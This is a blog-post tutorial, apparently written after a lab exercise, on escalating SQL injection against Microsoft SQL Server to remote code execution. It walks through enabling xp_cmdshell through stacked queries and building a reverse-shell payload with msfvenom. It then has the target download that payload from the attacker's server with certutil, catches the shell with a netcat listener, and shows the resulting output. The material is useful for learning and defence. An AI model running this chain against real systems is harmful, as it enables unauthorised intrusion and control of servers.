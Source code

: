 ```yaml
---
layout: post
title: From SQLi to remote code execution
---
```


SQL injection opens the way to data manipulation and theft, but I recently discovered that it can be an attack vector enabling **remote code execution** (RCE). This highly critical vulnerability gives the attacker access to the target machine.

There are multiple variants of how to escalate the attack depending on which Database Management Systems (DBMS) and OS the target uses. For this article, I'll show how an attacker might do it in an application having Microsoft SQL Server as DBMS and running on a Windows machine.

### SQLi
SQL injection (SQLi) is a common web security vulnerability. It allows an attacker to tamper with the SQL query an application makes to the database.    
SQLi was frequently included in the [OWASP Top 10](https://www.owasptopten.org/).

As a quick refresher on SQLi, let's take the example of a marketplace that allows users to delete one of their own products. The client will send a `DELETE /products/PROD_ID` request. Server-side, a `$productId` variable is initialized with the value of the `PROD_ID` parameter. It will send this query to the DB:  

```sql
DELETE * FROM products WHERE id = '$productId'; 
```

A malicious user can send this parameter `' OR 1=1--`. If the server does not sanitize and validate the input, it results in the following query. This triggers the deletion of all products:

```sql
DELETE * FROM products WHERE id = '' OR 1=1--';
```

### Store procedures
These are SQL statements that can be reused, think of them as functions in SQL. Many DBMS offer their own stored procedures, Microsoft SQL Server has **xp_cmdshell**.

xp_cmdshell provides a way for the SQL Server to directly execute OS commands and programs. As you can already see, this might pose a security risk.    
For good reasons, this functionality is by default disabled on production servers. But due to specific requirements or just plain misconfigurations, you can sometimes find it enabled.   
In some cases, an attacker can manually enable xp_cmdshell via `EXEC` queries. This is possible if the database user has one of these attributes:
- *sysadmin* server role
- `ALTER SETTINGS` server-level permission

An attacker might enable it by using [batched (or stacked) queries](https://portswigger.net/web-security/sql-injection/cheat-sheet) and injecting the following configuration options:

```
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

From the [documentation](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16<):

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

## Escalating to RCE
Now that the attacker has detected a SQLi vulnerability and can access xp_cmdshell, the following steps are:
1. Create a malicious payload (a **rshell.exe** file) with **MSFVenom**
2. Serve this file
3. Set up a listener for incoming connections from the target machine
4. On the target machine, use the **certutil.exe** Windows program to download this file from our controlled server (from step 2)
5. Execute the **rshell.exe** file on the target machine to create a reverse shell connection back to the listener on our machine.

> [certutil.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) is a native Windows CLI program part of Certificate Services. It is signed by Microsoft and used to make HTTP/s connections.
>
> [MSFVenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) is a CLI payload generation tool, and it comes with plenty of utilities used in pen testing and ethical hacking. 

### First step
On my machine, I will use MSFVenom to create our payload (change `MY_LISTENER_IP_ADDR` to your own).

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=MY_LISTENER_IP_ADDR LPORT=3333 -f exe -o rshell.exe
```

A new file called **rshell.exe** has been created.

### Second step
Still on my machine, I will start a Python server, in order to server this file:

```shell
python3 -m http.server 8000
```

All files in my current directory are now accessible to download on the target machine.   

### Third step
I set up a listener using the **Netcat** utility, listening for connections from the target machine on port 3333:

```shell
nc -lnvp 3333
```

### Forth and final step
Using the SQLi vector, I can run the **xp_cmdshell** utility to download and execute this file:

```
'; EXEC xp_cmdshell 'certutil -urlcache -f http://MY_SERVER_IP_ADDR:8000/rshel.exe C:\Windows\Temp\rshel.exe'; --
```

I checked my Python server's output:

```shell
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
MACHINE_IP - - [01/Jan/2024 10:15:01] "GET /rshel.exe HTTP/1.1" 200 -
```

Suggesting that the target machine fetched my file.    
Now, if everything goes well, my Netcat listener should have a reverse shell connection:

```
nc -lnvp 3333
listening on [any] 3333 ...
connect to [99.99.99.99] from (UNKNOWN) [MACHINE_IP] 49730
Microsoft Windows [Version 10.0.13143.1731]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt service\mssql$sqlexpress
```

And great success!   
I have obtained RCE, allowing me to run commands on the target machine. I already ran the `whoami` command and got `nt service\mssql$sqlexpress` as a response.

Doing this exercise was fun as it ties the two common vulnerabilities. As SQL injection can escalate to RCE, it vastly increases the attack surface.   
This highlights how dangerous SQLi vulnerabilities are and the importance of patching them.

## Resources
- tryhackme.com
- www.w3schools.com
- portswigger.net
